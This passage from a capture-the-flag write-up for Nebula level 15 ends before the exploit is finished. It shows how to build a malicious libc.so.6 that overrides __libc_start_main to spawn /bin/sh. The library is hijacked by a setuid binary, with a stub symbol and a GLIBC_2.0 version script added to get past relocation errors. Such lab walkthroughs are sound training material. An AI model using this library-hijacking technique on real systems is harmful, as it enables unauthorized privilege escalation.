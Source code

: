 So both of them look like good places to hook up our shell, but since Im more familiar with **__libc_start_main()**, I will inject the shell there:

```lang-bash line-numbers 
level15@nebula:/var/tmp$ mkdir flag15
level15@nebula:/var/tmp$ cd flag15
level15@nebula:/var/tmp/flag15$ cat shell.c
#include <linux/unistd.h>

int __libc_start_main(int (*main) (int, char **, char **), int argc, char *argv, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 shell.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

Ok, our library was injected but it looks like it is missing a symbol:

```lang-bash line-numbers 
level15@nebula:/var/tmp/flag15$ cat shell.c
#include <linux/unistd.h>


void __cxa_finalize (void *d) {
    return;
}

int __libc_start_main(int (*main) (int, char **, char **), int argc, char *argv, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

We need to provide version info to our library and it should be compatible with **GLIBC_2.0**. Googling around we find the following link that explains how to do it: [version-script]():

```lang-bash line-numbers 
level15@nebula:/var/tmp/flag15$ cat version
GLIBC_2.0 { };
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 shell.c -Wl,--version-script=version
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol execve, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```
